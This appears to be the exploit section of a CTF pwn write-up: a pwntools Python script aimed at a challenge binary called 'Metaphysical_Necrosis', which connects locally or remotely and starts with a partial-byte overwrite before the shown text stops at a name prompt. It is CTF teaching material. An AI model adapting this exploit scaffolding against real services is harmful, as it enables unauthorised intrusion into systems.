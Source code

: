 ### 0x4 exp

```python
#!/usr/bin/python
#coding=utf-8
#__author__:TaQini

from pwn import *

local_file  = './Metaphysical_Necrosis'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = 'libc-2.23.so'
is_local = False
is_remote = False

if len(sys.argv) == 1:
    is_local = True
    p = process(local_file)
    libc = ELF(local_libc)
elif len(sys.argv) > 1:
    is_remote=True
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)
    libc = ELF(remote_libc)

elf = ELF(local_file)

context.log_level = 'debug'
context.arch = elf.arch

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))

def debug(cmd=''):
    gdb.attach(p,cmd)

# info
# gadget
# elf, libc

print ru('你要把C4安放在哪里呢？\n')
# debug()
sl('5')
if is_local:  se('\x43')
if is_remote: se('\x08')
sleep(1)
ru('the bomb has been planted!\n')
sl('')
print ru('不如把它宰了，吃一顿大餐，你说吼不吼啊！\n')
sl('')
ru('起个名字:')
```